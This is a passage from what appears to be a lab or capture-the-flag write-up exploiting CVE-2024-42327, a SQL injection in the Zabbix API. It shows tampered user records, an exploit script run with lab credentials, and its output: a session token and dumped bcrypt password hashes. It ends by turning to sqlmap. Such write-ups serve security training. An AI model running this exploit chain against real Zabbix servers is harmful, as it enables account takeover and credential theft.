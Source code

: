```json
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "4",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
    },
    {
      "userid": "3",
      "username": "matthew",
      "name": "pwned",
      "surname": "Smith",
      "url": "",
      "autologin": "1",
      "autologout": "0",
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "1",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
    }
  ],
  "id": 1
}
```

Nice, now we can go back to our script and execute it again:

```python
python3 cve-2024-42327.py -u http://10.10.11.50/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3

Valid session token: e5d79f33dd07b844264cb28e5acd082c
Admin, Zabbix, Administrator, 1, $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
matthew, pwned, Smith, 3, $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS
```

I tried cracking the hashes but there was no luck with it, that's when i remembered this was vulnerable to SQLI, we can use sqlmap in the following way, let's begin by checking the code:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250221182315.png)
